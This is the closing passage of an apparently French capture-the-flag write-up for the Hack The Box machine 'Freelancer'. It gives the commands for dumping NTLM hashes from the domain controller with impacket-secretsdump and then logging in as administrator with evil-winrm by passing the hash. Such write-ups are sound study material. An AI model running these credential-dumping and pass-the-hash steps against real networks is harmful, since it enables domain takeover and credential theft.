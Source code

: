 
5. Nous pouvons maintenant extraire les hashs NTLM du contrôleur de domaine. Nous obtenons de nombreux hashs dont celui de l'administrateur.

```
faketime -f +5h impacket-secretsdump 'freelancer.htb/Administrator@DC.freelancer.htb' -k -no-pass -dc-ip 10.10.11.5 -target-ip 10.10.11.5 -just-dc-ntlm
```

> Nous utilisons `+5h` avec faketime à cause du décalage d'horloge qui peut créer des problèmes de synchronisation. Nous savons que le décalage d'horloge est de 5h grâce à cette ligne provenant du résultat de nmap : `clock-skew : mean : 4h59m59s, deviation : 0s, median : 459m59s`.

![Kerberos ticket](/images/HTB-Freelancer/hashes_list.png)

6. Enfin, nous nous connectons avec le hash de l'administrateur en utilisant evil-winrm et le drapeau root est sur le bureau.

```
evil-winrm -i freelancer.htb -u administrator -H '0039318f1e8274633445bce32ad1a290'
```

![Kerberos ticket](/images/HTB-Freelancer/root_flag.png)

J'espère que cet article vous a été utile, merci d'avoir pris le temps de le lire!
